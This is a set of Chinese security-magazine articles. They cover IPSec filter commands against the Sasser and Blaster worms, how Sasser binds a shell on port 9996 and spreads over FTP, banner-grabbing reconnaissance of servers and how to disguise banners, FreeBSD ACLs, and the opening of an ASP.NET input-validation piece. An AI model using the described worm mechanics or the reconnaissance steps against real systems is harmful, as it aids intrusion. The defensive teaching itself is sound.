如果要进行命令配置，启用本地定义的 IPSec 策略的系统还需要安装一个软件，我们可以访问 http://www.microsoft.com/windows2000/techinfo/reskit/tools/existing/ipsecpol-o.asp，下载并安装 Ipsecpol.exe。

Ipsecpol.exe 包括在 Windows 2000 Resource Kit 中，它是一个用于创建、指派和删除 IPSec 策略的命令行实用程序。Ipsecpol.exe 非常灵活，它可在 Active Directory 以及本地和远程注册表中创建动态和静态策略。

## 命令行下配置 IPSec

打开命令提示窗口，然后将工作文件夹设置为你在其中安装了 Ipsecpol.exe 的文件夹，默认地址为 C:\Program Files\Resource Kit。

### 1．创建 IPSec 策略

相关语法可说明如下，注意一定要使用半角，特别是引号和相关参数。创建新策略的语法如下：

```bash
ipsecpol -w REG -p "自定义筛选" -r "自定义协议" -f *+192.168.10.123:80:TCP -f *+192.168.10.123:443:TCP -n PASS
```

下面我们来仔细看看上面的参数。注意，-w、-f 和 -n 等参数的值区分大小写，相关说明内容包含在 [] 内。

- `[-w REG]` 是指向注册表中写入静态策略。
- `[-p "自定义筛选"]` 是指创建名为“自定义筛选”的策略。
- `[-r "自定义协议"]` 是指创建名为“自定义协议”的规则。
- `[-f *+192.168.10.123:80:TCP]` 是指添加筛选器，其中 `*` 指定任何源地址和任何端口，`192.168.10.123:80` 指定目标地址（服务器本身的地址）和特定端口，`TCP` 指定协议，`+` 指明筛选器已被镜像。
- `[-f *+192.168.10.123:443:TCP]` 是指除了目标地址为 443 以外，与上述参数相同。
- `[-n PASS]` 是指传递通信，而不协商安全。

### 2．创建匹配并阻止所有通信的 IPSec 策略

相关语法可说明如下：

```bash
ipsecpol -w REG -p "自定义筛选" -r "自定义协议" -f *+192.168.10.123 -n BLOCK
```

相关参数的意思可以说明如下，注意说明内容包含在 [] 内。

- `[-w REG]` 表示向注册表中写入一定的静态策略。
- `[-p "自定义筛选"]` 表示将策略添加到名为“自定义筛选”的现有策略中。
- `[-r "自定义协议"]` 表示创建一个名为“自定义协议”的规则。
- `[-f *+192.168.10.123]` 表示添加筛选器。其中，`*` 指定的范围是任何源地址和任何端口，`192.168.10.123` 是指定的目标地址和任何端口，协议空缺意味着使用任何协议，`+` 并指明筛选器已被镜像。
- `[-n BLOCK]` 表示阻止通信。

实际使用过程中，我们还可以灵活地配置。例如，如果保证一台基于 Windows 2000 的计算机上的目标端口 UDP 1434 的安全，就要阻止从任何 IP 地址和任何源端口发往它的网络通信，从而有效地保护运行 Microsoft SQL Server 2000 的计算机免遭 “Slammer” 蠕虫的攻击。可以键入以下命令：

```bash
ipsecpol -w REG -p "Port Define" -r "Block Inbound UDP 1434 Rule" -f *=0:1434:UDP -n BLOCK -x
```

再比如，要保证运行 Microsoft Internet 信息服务（IIS）5.0 的计算机免遭 “Code Red” 和 “Nimda” 蠕虫的攻击，需要阻止对 TCP 端口 80 进行的入站访问，但是仍然允许进行出站 TCP 80 访问。可以键入如下命令：

```bash
ipsecpol -w REG -p "Block TCP 80 Filter" -r "Block Inbound TCP 80 Rule" -f *=0:80:TCP -n BLOCK -x
```

注意其中的 “-x” 开关可以立即指定该策略。如果输入此命令，将取消指定 “Port Define” 策略，并指定 “Block TCP 80 Filter”。要添加但不指定该策略，在输入该命令时，在结尾不带 “-x” 开关。

### 3．命令指派 IPSec 策略

```bash
ipsecpol -w REG -p "自定义筛选" -x
```

相关参数说明如下：

- `[-w REG]` 表示向注册表中写入静态策略。
- `[-p "自定义筛选"]` 表示添加到名为“自定义筛选”的现有策略中。
- `[-x]` 表示指派策略。

### 4．验证存在的 IPSec 策略

上述策略生效后，将在每次重新启动计算机后一直存在。但是，如果以后为计算机指定了基于域的 IPSec 策略，此本地策略将被覆盖并将不再适用。要验证你的筛选规则是否已成功指定，在命令提示符窗口下，将工作文件夹设置为 `C:\Program Files\Support Tools`，然后键入以下命令：

```bash
netdiag /test:ipsec /debug
```

根据消息提示，我们就可以更加详细地定义相关规则，如下所示：

```text
IP Security test . . . . . . . . . . . . : Passed
Local IPSec Policy Active: "Block TCP 80 Filter"
IP Security Policy Path: SOFTWARE\Policies\Microsoft\Windows\IPSec\Policy\Local\ipsecPolicy\{C70CAE75-211D-4A8F-904D-0B854D75ED57}
There are 4 filters
没有名称
Filter Id: {36B8A5DE-63AC-48E1-BB0D-3C8920552A95}
Policy Id: {2F544FF4-027A-43EF-8A66-BF627DBD991C}
Src Addr: 0.0.0.0        Src Mask: 0.0.0.0
Dest Addr: 192.168.10.38 Dest Mask: 255.255.255.255
Tunnel Addr: 0.0.0.0     Src Port: 0   Dest Port: 80
Protocol: 6              TunnelFilter: No
Flags: Inbound Block
```

### 5．取消和删除 IPSec 策略

应用静态策略时，IPSec 筛选规则有时也会导致网络程序丢失数据和停止响应网络请求，包括无法对用户进行身份验证，这时我们就要考虑取消筛选了。在应用静态策略的计算机中，打开命令提示窗口，然后将工作文件夹设置为安装了 ipsecpol.exe 的文件夹。例如，要取消指定你以前创建的“Port Define”，可以使用以下命令：

```bash
ipsecpol -w REG -p "Port Define" -y
```

再比如，要删除“Port Define”筛选和以前创建的两个规则，可以使用以下命令：

```bash
ipsecpol -w REG -p "Port Define" -r "Block Inbound UDP 1434 Rule" -r "Block Outbound UDP 1434 Rule" -o
```

## 实例分析

### 1．“震荡波”病毒

“五一”期间，“震荡波”病毒爆发。它能在网络上自动搜索系统有漏洞的电脑，并直接引导这些电脑下载病毒文件并执行，因此整个传播和发作过程不需要人为干预。只要这些用户的电脑没有安装补丁程序并接入互联网，就有可能被感染。漏洞的起因在于 LSA 服务，它是 Windows 系统中一个相当重要的服务，所有安全认证相关的处理都要通过这个服务。该服务在记录日志的时候会调用 vsprintf() 函数，但是对提供给这个函数的字符串参数缺少正确的边界检查，发送超长的字符串可导致缓冲区溢出，进而执行任意代码，完全控制系统。

“震荡波”病毒利用上述漏洞，在系统上取得控制权后，打开 9996 端口并绑定 cmd.exe，然后连接上来，通过 FTP 将蠕虫自身传输到系统目录下，文件名变为 4—5 位随机数字_up.exe，例如 74354_up.exe。传输完毕后，蠕虫文件就会被执行，进行以下操作：

- 1. 将自身拷贝到 `%SystemRoot%\avserve.exe`，并在注册表主键 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下添加键值：`"avserve.exe"=%SystemRoot%\avserve.exe`。这将导致每次系统重启时该蠕虫被自动运行。
- 2. 在 C 盘根目录创建文件 `win.log`，里面记录本地主机的 IP 地址。
- 3. 在本地的 5554 端口建立 FTP 服务器，用于传播自身。
- 4. 扫描并攻击网络上的其他主机的 TCP/445 端口，一旦攻击成功，就在被攻击的主机的 TCP 9996 端口上启动一个 Shell 程序，然后回连到本地的 FTP 服务器上下载蠕虫并运行。

由于该蠕虫使用的溢出代码不够完善，受攻击的系统在运行一段时间后，本地安全权限服务的进程 LSASS.EXE 会崩溃，这将导致系统重启。蠕虫攻击可能导致 Windows 2000/XP 操作系统重启，蠕虫传播时可能导致被感染主机系统性能严重下降以及被感染网络带宽被大量占用。因此，必须对 UDP 端口 135、137、138、445 及 TCP 端口 135、139、445、593 进行过滤，同时要屏蔽端口 5554 和 9996。

首先，减轻漏洞隐患。我们可以通过创建日志文件来暂时消除“震荡波”病毒可通过其侵入计算机的漏洞。在屏幕底部的任务栏上单击“开始”，然后单击“运行”。键入“cmd”，然后单击“确定”。在命令提示符下，输入 `echo dcpromo > %systemroot%\debug\dcpromo.log`，然后回车。其次，将日志文件设置为只读属性。在命令提示符下，输入 `attrib +R %systemroot%\debug\dcpromo.log`，然后回车。

把来自外部对以上标明端口的连接过滤，鉴于“震荡波”十分消耗网络资源，还要禁止它发送 ICMP 包。假如我们感染了，还要防止自己主机向外部发送数据。现在创建策略名为 Zdb，设置命令如下（为了方便读者，单条列出）：

```bash
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 135 Rule" -f *+0:135:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 135 Rule" -f 0+*:135:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 137 Rule" -f *+0:137:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 137 Rule" -f 0+*:137:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 138 Rule" -f *+0:138:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 138 Rule" -f 0+*:138:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 445 Rule" -f *+0:445:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 445 Rule" -f 0+*:445:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 5554 Rule" -f *+0:5554:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 5554 Rule" -f 0+*:5554:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 9996 Rule" -f *+0:9996:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 9996 Rule" -f 0+*:9996:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 593 Rule" -f *+0:593:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 593 Rule" -f 0+*:593:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound ICMP Rule" -f *+0:0:ICMP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound ICMP Rule" -f 0+*:0:ICMP -n BLOCK
```

然后激活这个安全策略，命令是：

```bash
ipsecpol -w REG -p "Zdb" -x
```

> 注意：如果是过滤传出的，只要把 * 和 0 互换，把 Inbound 改成 Outbound 即可。当我们不需要这样的安全策略时，可以将它们删除掉，具体命令是：

```bash
ipsecpol -w REG -p "Zdb" -y   // 先用 -y 参数不指派这个策略
ipsecpol -w REG -p "Zdb" -o   // 然后用 -o 参数删除
```

### 2．冲击波病毒

“冲击波”利用的端口有 TCP 135 和 4444 端口、UDP 69 端口，此外它还会发送 ICMP 数据包。另外，与 RPC/DCOM 有关的端口是 TCP 135、445、139、593 端口，UDP 135、137、138、445 端口。如果我们要防范“冲击波”蠕虫，我们需要把来自外部对以上标明端口的连接过滤，为了不影响网络速度，还要禁止 ICMP 包。假如我们被感染了，还要防止自己主机向外部发送数据，因此我们来创建策略，比如策略名是：Anti Blaster，那么我们所要的命令如下：

```bash
ipsecpol -w REG -p "Anti Blaster" -r "Block Inbound TCP 135 Rule" -f *+0:135:TCP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Outbound TCP 135 Rule" -f 0+*:135:TCP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Inbound TCP 4444 Rule" -f *+0:4444:TCP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Outbound TCP 4444 Rule" -f 0+*:4444:TCP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Inbound UDP 69 TFTP Rule" -f *+0:69:UDP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Outbound UDP 69 TFTP Rule" -f 0+*:69:UDP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Inbound ICMP Rule" -f *+0:0:ICMP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Outbound ICMP Rule" -f 0+*:0:ICMP -n BLOCK
```

要激活这个安全策略，命令是：`ipsecpol -w REG -p "Anti Blaster" -x`。如果需要增加安全保险系数，可以禁止对 RPC 相关端口的连接，这样我们运行的命令如下：

```bash
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound UDP 135 Rule" -f *+0:135:UDP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound TCP 135 Rule" -f *+0:135:TCP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound UDP 137 Rule" -f *+0:137:UDP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound UDP 138 Rule" -f *+0:138:UDP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound TCP 139 Rule" -f *+0:139:TCP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound TCP 445 Rule" -f *+0:445:TCP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound UDP 445 Rule" -f *+0:445:UDP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound TCP 593 Rule" -f *+0:593:TCP -n BLOCK
```

激活这个安全策略的命令是：

```bash
ipsecpol -w REG -p "Block RPC Attack" -x
```

上面只过滤了传入的连接请求，如果是过滤传出的，那么只要把 * 和 0 互换，把 Inbound 改成 Outbound 就可以了。如果我们要删除防止“冲击波”的策略时，具体命令是：

```bash
ipsecpol -w REG -p "Anti Blaster" -y   // 先用 -y 参数不指派这个策略
ipsecpol -w REG -p "Anti Blaster" -o   // 然后用 -o 参数删除
```

当然，也可以通过一个批处理文件来实现。现在我们看到，启用筛选后，打开注册表，会发现：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` 中，`EnableSecurityFilters` 变为 1。

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces` 中，有多个 UUID 子键，其中表示网卡的会有改变。

对于其他的漏洞，我们可以根据实际情况制定相应的 IPsec 策略。当然，这些方法在没有方便的杀毒软件之前是比较奏效的。如果有更加快捷的杀毒工具，建议大家还是采用方便的杀毒软件进行杀毒。

# 战斧由碟点点燃，我趁从 Banner 开始

文／图 WJ

入侵的开始首先就是对目标的刺探，我们这里都用服务器做例子。如果我想对一个系统进行探测，一般有如下的几个方法：扫描器——最方便、实用、全面的懒人工具；手工——要求对系统了解稍微多点，对各种漏洞掌握要比较全面。其实扫描器和手工探测是同样的道理，都是模拟某种操作和目标系统交互信息，从系统返回的信息判断是否存在某种漏洞，所以我们放在一起讲述（注：本文以最常见的 Windows 系统为例）。

扫描器是现在网络上用得最多的一个安全工具，我家隔壁那个 8 岁的小朋友都常常在我上网的时候跑过来问：哥哥，你在用扫描器哇？简直让人哭笑不得，也由此可见扫描器的广泛。网上小菜鸟们所用的漏洞扫描器一般就是 X-Scan、流光、Retina、SSS 等，原理都差不多，大家都会，也没什么好讲的。我们讲讲手工，这个有趣点——至少那个毛头小孩不会问我：哥哥，你又在手工探测啊？$%^&*#$

要入侵一个服务器，首先得搞清楚人家是什么 OS，要是操作系统都搞不清楚的话，一切都免谈。最常用的方法是通过查看对方 80 端口的 Banner 来确定版本的：首先 Telnet 上目标的 80 端口，然后轻轻地 Get 一下，Banner 就乖乖地出来了，如图 1 所示。


图 1

看见了吧？IIS5.0、HTTP 协议，80% 是 Windows 2000 的服务器了！就这么简单。普通的扫描器判断 OS 一般也是用的同样的方法，还有可能是通过远程服务器的指纹进行判断。那你会说，我们的服务器怎么这么老实，还没严刑逼供就招了？嘿嘿，慢点，通过其他途径的探测也同样可以实现的，别让人家服务器委屈了。来看最近热火朝天的 Serv-U 又是如何的：直接在命令行下 FTP 上去，看看返回信息，如图 2 所示。


图 2

哇！又一个招供的：Serv-U FTP Server v5.0 for WinSock ready，这不是很明白地告诉我们用的是什么程序，什么版本了吗？Serv-U 的 N 多个溢出看来要发挥作用了。再来 Telnet 110 看看，一般的邮件服务器都是用的这个端口，如图 3 所示：


图 3

哇！WebEasyMail 3.5.1 也！真老实，赶快去翻漏洞库……好了，就举这几个简单例子了，其他的什么 Imail、MS SQL Server 等服务，都可以用同样的方法探测，你知道某服务器的特定端口就行了（这里废话一句：对网络上常见程序端口的了解是每个学习安全的朋友的必备知识！积累得越多，到真正需要用到入侵上的时候，你也就越得心应手，比如独裁者 DDoS 攻击工具留的后门端口什么的……呵呵）。

拿到了这么多的信息，新手朋友可能会问：有什么用呢？你还没有黑到人家呀？我倒！典型的不知道 RAR 是什么东西的网民。我们获得了目标系统的信息，就可以更好地按照我们获得的信息去有针对性地发现它的漏洞。比如：探测到对方是 2000 系统，我们马上就应该想到 2000 系统可能存在哪些漏洞，自己掌握了哪些漏洞的攻击方法，侵入这个服务器的可能性有多高？同样，如果发现是 Serv-U 做的 FTP，那 Serv-U 的一堆溢出漏洞就有可能派上用场了！这时候，你还会说得到的这些信息没用吗？

好了，上面讲的是入侵者对系统的探测方法，进而有可能让他发现到系统的进一步信息，从而利用某种漏洞入侵服务器。作为这个系统的管理员，该如何来屏蔽或者说修改这些信息，让入侵者查不到真正的资料，找不着北呢？很简单，我们一起往下看。

Windows 下绝大部分服务都是可以修改 Banner 信息的，比如 Serv-U，我们可以这样修改它的返回信息：打开本地的 Serv-U 管理器，指向你的域，在“设置”选项的“消息”标签里有每次登录服务器的详细返回信息，如图 4 所示。我们需要做的，只是将里面的消息全部替换，是换成 “What did you want to do?” 还是换成 “Microsoft FTP Service (Version 5.0)” 就看个人的喜好了。


图 4

经过这样的简单设置，我原来是 Serv-U 的服务器，现在换成了 MS 的 FTP 服务器，嘿嘿，让入侵者用 MS FTP 服务器的漏洞去尝试吧！反正累死人才是不偿命的！同理，系统的其他服务也可以用这样的方法去更改，以达到迷惑入侵者的目的，让他们找不到存在漏洞的服务，攻击自然无从谈起。

在这里，给大家介绍一个很方便的工具包：Banner Edit Tool，内含 Apache-Win32 Banner Edit 1.1、MS-FTP Banner Edit 1.0、IIS/PWS Banner Edit 1.1、MS-SMTP Banner Edit 1.0 4 种 Windows 下网络服务 Banner 编辑工具，可以简单方便地通过编辑该服务 Banner 相对应的 DLL 文件达到修改 Banner 的目的。我们简单地看看 IIS 的 Banner 信息如何修改，只需要直接运行 IIS-Banner-Edit.exe，在“New Banner”框内写上你想得到的 Banner 信息，点下面的“Save to file”就可以修改你服务器上的信息了，如图 5 所示。


图 5

同样，其他服务的 Banner 信息也可以这样修改，总的来讲目的只有一个，就是迷惑入侵者，让他搞不清楚目标系统究竟是什么具体版本，这样的直接效果就是让他无法利用现有的漏洞去入侵服务器，最终达到服务器上漏洞防护的目的。

## ACL扩展 FreeBSD 访问控制策略

文／dahushiba.abao

随着 FreeBSD 5.0 的普及，UFS2 文件系统逐渐被人们接受，在 FreeBSD 5.0 众多特性当中，ACL 可算是一个亮点。以前的 UFS 文件系统只能针对文件、目录做单一设置，而基于 UFS2 文件系统的 ACL 可以针对文件、目录做多项设置。虽然和 Windows 下的 NTFS 文件系统上的 ACL 如出一辙，但还是有很多不同的地方。就我个人认为，Windows 下的 ACL 还是最为强大的访问控制策略（说 Windows 不好的时候也想想是不是真的不好！）。好了，言归正传，下面谈谈我对 FreeBSD 下的 ACL 使用心得，希望对广大系统管理员朋友有所帮助。

## 什么是 ACL？

### 1. FreeBSD 文件系统

ACL 是基于文件系统的，文件系统是指文件的命名、存储、组织的总体结构。我们知道，Windows 支持 FAT、FAT32、NTFS，Linux 支持 Ext2FS、Ext3FS 等文件系统，而 FreeBSD 使用的 FFS 文件系统，也就是 BSD 快速文件系统（BSD Fast File System）。通常，很多人都认为 FFS 就是 UFS（Unix File System）文件系统，但事实并非如此，“真正的” UFS 仅用于早期 BSD 风格的 Unix，而 FreeBSD 采用的并不是真正的 UFS 文件系统。FFS 是 FreeBSD、OpenBSD、NetBSD 以及其他系统（比如 Mac OS X）所使用的典型的文件系统。了解文件系统有助于后边是否可以正确地装入文件系统。

### 2. FreeBSD ACL

ACL（Access Control Lists），即访问控制列表，是 FreeBSD 5.0 及其后续版本加入的一个新特性，基于 UFS2 文件系统。使用它可以严格地控制用户、组和其他用户的访问权限，并可以针对文件和目录做多项设置，同时还可以给那些通过 ACL 被授予权限的用户和组设置一个最大权限掩码，这样就可以覆盖 ACL 实际授予的权限。在介绍 ACL 之前，需要对基本的权限设置有所了解，如果你是一个 Unix 新手，对权限设置不太了解，那就请仔细看下面的内容，它关系着你是否可以看懂 ACL 规则。

## FreeBSD 访问控制策略

在 FreeBSD 5.0 之前，设置文件、目录的权限只有三部分，分别为 U（User，用户）、G（Group，组）、O（Other，其他用户），使用 Chmod（Change Mode）命令设置访问权限。根据自己的习惯，可以用“数字模式”和“符号模式”设置访问权限。

### 1. 数字模式

使用 Chmod 改变访问权限，其中一种方式就是使用一个三位数的八进制数，这个八进制数分别唯一地对应一种权限，而三位数中的每位数又代表着某一个所有权模式，分别控制着用户、组和其他用户相应的访问权限。可以使用的数字有 4 个，如下所示：

| 数字 | 含义 |
|---|---|
| 0 | 没有任何权限 |
| 1 | 执行权限（对目录来说是查找权限） |
| 2 | 写权限 |
| 4 | 读权限 |

有了这 4 个数字，可以方便定义访问权限，而且还可以将这 4 个数字加在一起构成一个全新的三位数的数字，例如：

| 完整的数字权限模式 | 含义 |
|---|---|
| 755 | 用户可读可写可执行，组和其他用户可读可执行 |
| 644 | 用户可读可写，组和其他用户可读 |
| 600 | 用户可读可写，组和其他用户没有访问权限 |

可以使用如下命令给一个文件、目录指定访问权限：

```
#chmod 755 Test.sh
#chmod 600 /test
```

在这三位数的基础之上，我们还可以再添加一位数，以便提供一些“额外”的特性。我们姑且将其称之为第四位数，同样，它也是由 4 个八进制数组成，如下所示：

| 附加数 | 含义 |
|---|---|
| 0 | 一般权限 |
| 1 | 粘连位，仅用于目录 |
| 2 | 组 ID，或 “Setgid” |
| 4 | 用户 ID，或 “Setuid” |

使用的时候，需要将这位数放到那三位数之前，也就是：

```
#chmod 0755 Test.sh
#chmod 4600 /test
```

### 2. 符号模式

有三种符号用于修改访问权限，分别为“+”、“-”、“=”，它们的含义很明显，可以理解为“加”、“减”、“赋值”；同样也有一系列的格式字符串与上边的数字对应，如下所示：

| 符号 | 含义 | 符号 | 含义 |
|---|---|---|---|
| R | 读（Read） | S | Setuid 和 Setgid 位 |
| W | 写（Write） | U | 用户（User） |
| X | 执行 | G | 组（Group） |
| T | 粘连位 | O | 其他用户（Other） |

使用 `ls -al FileName` 可以显示完整的权限设置，包括所有权和访问权限。

```
#ls -al /root
drwxr-xr--  3 root users  ...  test
-rwxr--r--  1 root users  ...  Test.sh
```

开头的字母 “d” 表示这是一个目录，后边的字符串 “rwxr-xr--” 需要分成三部分理解，首先是 “rwx”，这表示用户位，也就是 Root 用户拥有读、写和访问目录权限；然后是 “r-x”，这表示用户组位，也就是 Users 组拥有读和访问目录权限；最后是 “r--”，这是其他用户位，也就是其他用户只有读权限。在看 Test.sh 这个脚本，它的第一位是一个 “-” 符号，这就表示这是一个文件，同样，这也是区分目录和文件的最好方法。

以上是 FreeBSD 系统基本的权限设置，事实上，大部分 Unix/Linux 系统都是这样。不管怎么样，以上内容是必须掌握的，否则是无法使用 ACL 的，尤其是上边的那些“权限符号”，设置 ACL 规则无可避免地要使用这些符号。

### ACL扩展 FreeBSD 访问控制策略

### 1. 准备工作

- （1）配置内核

首先是检查内核配置文件，虽然 UFS 扩展已经包括在 5.0 发行版的缺省内核中（GENERIC），但你如果编译过内核，并且去掉了 ACL 相关的条目，那就需要再次编译内核；如果你一直运行的是缺省内核那就不必编译内核了。

为了确定是否启用了 UFS 扩展，需要在内核配置文件查找下列几行。Intel 80x86 平台中内核配置文件在 /usr/src/sys/i386/conf 目录中（根据你重新构造内核的次数，目录中的文件也不同），Alpha 平台内核配置文件则在 /usr/src/sys/alpha/conf 目录中。如果没有启用 UFS 扩展，需要手工添加如下几行：

```
Options UFS_EXTATTR
Options UFS_EXTATTR_AUTOSTART
Options UFS_ACL
```

如果内核中已经有了这些选项，则不需要做任何事情了。如果内核中没有这些选项，那么就需要添加以上内容并重新编译一个内核。

```
#cd /usr/src/sys/i386/conf
#cp KERNEL1 KERNEL2
#vi KERNEL2

#cd /usr/src
#make buildkernel KERNEL=KERNEL2
#### 编译内核，并且以 KERNEL2 代替 KERNEL1
#make installkernel KERNEL=KERNEL2
#### 安装内核，并用 KERNEL2 代替 KERNEL1
```

完成更新之后重新启动系统，接下来就是配置想使用 ACL 的文件系统。

- （2）配置文件系统

要想使用 ACL，需要使用 Extattrctl 命令扩展文件系统的属性。例如现在我们打算在 /usr 挂载点装入 ACL 扩展，步骤如下：

```
#mkdir /usr/attribute /usr/attribute/system
#cd /usr/attribute/system
#extattrctl initattr -p /usr 388 posix1e.acl_access
```

使用这个命令会生成一些 ACL 必要的备份文件。在比较大的文件系统上，这个命令可能需要等待几分钟。

```
#extattrctl initattr -p /usr 388 posix1e.acl_default
```

在第一次 Extattrctl 命令成功之后，需要再执行一次这个命令，只是后边的文件名不同了。（第一次是 posix1e.acl_access，第二次是 posix1e.acl_default）

在两次命令都执行过之后，就可以重新启动系统或者重新启动文件系统，以使刚才的设置生效。全部完成之后，就可以在 /usr 下使用 ACL 了。设置其他挂载点的方法同上。

### 2. 使用 ACL

- （1）获取与 ACL 相关信息

获取 ACL 的相关信息，需要使用 Getfacl 实用程序，它可以获取文件和目录中现有的 ACL 设置信息。假如现在创建一个 Test.txt 文件，缺省的权限设置为 644，可以使用 Getfacl Test.txt 获取 ACL 信息。

```
#getfacl Test.txt
#file: Test.txt
#owner: 0
#group: 0
User: rw-
Group: r--
Other: ---
```

回显的第一行是文件名，随后两行是文件所属的用户和组的 UID 和 GID（在这里是 Root 用户），最后三行是当前的权限设置，具体含义在第二部分已经说过了。

- （2）在 ACL 中添加用户或组

设置 ACL 就不能使用 Getfacl 程序了，需要使用 Setfacl 实用程序，例如接着为 Test.txt 赋予 User_1 用户读权限。

```
#setfacl -m u:User_1:r Test.txt
#getfacl Test.txt

User::rw-
User:User_1:r--
Group::r--
Other::---
```

现在 ACL 列表中已经多了一个 User_1 的用户，也就是说，现在用户 User_1 可以读取这个文件的内容了，即使 User_1 用户没有基本的文件存取权限。当然也可以同时赋予 User_1 用户各种权限，例如赋予 User_1 用户读、写权限。

```
#setfacl -m u:User_1:rw Test.txt
#getfacl Test.txt
......
User:User_1:rw-
......
```

用户 User_1 现在可以读、写这个文本文档了。如果要设置组权限，只需把 -m 参数后边的 U 修改为 G，例如：

```
#setfacl -m g:users:rw Test.txt
#getfacl Test.txt
......
Group:users:rw-
......
```

Users 用户组对 Test.txt 文件有读、写权限。

- （3）最大权限掩码

最大权限掩码（Maximum Permissions Mask）是控制 ACL 列表中的任何用户和组可以使用的最大权限。最大权限掩码仅仅对那些能够访问 ACL 列表中文件和目录的用户和组有效，它并不影响所有者拥有的基本权限、用户组所拥有的权限和其他用户的基本权限，任何一个没有在 ACL 列表列出来的只能使用基本文件权限操作文件。现在我们为 Test.txt 赋予一个最大权限掩码。

```
#setfacl -m m:r Test.txt
#getfacl Test.txt
......
User:User_1:rw-
......
Mask::r--
Other::---
```

这里需要注意一下，虽然 User_1 用户有读、写权限，但由于最大权限掩码只有读权限，所以，User_1 用户的最大权限也是读。如果现在继续对 User_1 用户设置 ACL，那最大权限掩码也会随之变动，可以使用 -n 参数禁止掩码更新，例如：

```
#setfacl -n -m u:User_1:rwx Test.txt
#getfacl Test.txt
......
User:User_1:rwx
......
Mask::r--
Other::---
```

如果不使用 -n 参数，那 Mask 就会变为 “Mask::rwx”，这里需要多加注意，不要因为掩码设置问题造成权限的混乱。

如果系统上的用户和组非常多，一个一个设置太麻烦了，幸好可以在同一个命令行中加入多个 ACL 规则，而只需注意用逗号分割这些 ACL 规则。

```
#setfacl -n -m u:User_1:r,u:User_2:rw,g:users:r Test.txt
```

这个命令赋予了 User_1 用户读权限，User_2 用户读、写权限和 Users 组的读权限，并且使用了 -n 参数禁止了掩码更新。

- （4）在 ACL 中拒绝／删除用户或组

使用 ACL 可以拒绝某个用户和组的访问权限，也可以直接删除某个用户和组的访问权限。

```
#setfacl -m u:User_1: Test.txt
#getfacl Test.txt
......
User:User_1:---
......
```

上边是拒绝 User_1 用户的访问权限，即使 User_1 属于该文件组的成员，同样会遭到拒绝。ACL 可以否决基本文件访问权限，即使基本文件访问权限允许该用户访问这个文件。可以说 ACL 是权限当中级别最高的。

如果打算删除 ACL 规则，就需要使用 -x 参数。

```
#setfacl -x u:User_1 Test.txt
```

如果打算删除所有的 ACL 规则，就需要使用 -b 参数。

```
#setfacl -b Test.txt
```

使用好 ACL 可以很好地控制存取权限，上边我只是举了几个例子，要想发挥 ACL 的威力，还需要大家在实践中慢慢摸索。另外，对于目录的设置和文件是一样的，鉴于篇幅，就不再详述了。Getfacl 和 Setfacl 的 Man 手册页的内容都很全面，英文好的朋友可以看看。如对文章有任何意见，可以来我的网站讨论：www.RingZ.org。

脚本小子：微软的 .NET 策略影响着网络中的每个人，大家或多或少对它都有一定的看法，当然，安全性自然是我们这个群体关注的热点。听很多朋友问过：ASP.NET 究竟在什么地方让微软如此自豪，让入侵者无法越雷池半步？下文将向大家讲述 ASP.NET 如何在简单编写功能模块后就能防护很大范围的脚本攻击的方法，大家一起来看看我们未来的“入侵目标”究竟优秀到什么程度吧！

**难度等级：** 中  
**适合读者：** ASP.NET 程序员、脚本入侵爱好者  
**前置知识：** ASP.NET 相关编写技术

# ASP.NET 输入盒超级变态防御

文／岑进锋

ASP.NET 是由 ASP 升级而来的新一代 Web 开发技术，在安全性方面有很多优于 ASP 的地方。例如，默认情况下 ASP.NET 能自动检测 TextBox 或 URL 中存在的危险代码并做安全处理，使很多入侵 ASP 轻而易举的技术手法，到 ASP.NET 中便无计可施。但是 ASP.NET 默认的检测并不能达到很理想的效果，笔者在搜影（网址：www.25cn.net/souying/，一款专门搜索免费电影的搜索引擎）上做了个试验：在搜索框 TextBox 中输入 `<b>`、`<a>` 等字符，或者在 IE 地址栏提交以下字符串：`http://www.25cn.net/Souying/Search.aspx?key=<b>`，就直接遭到了 ASP.NET 的拦截，返回错误提示：

> “异常详细信息：System.Web.HttpRequestValidationException：从客户端（key=`"<b>"`）中检测到有潜在危险的 `Request.QueryString` 值。”

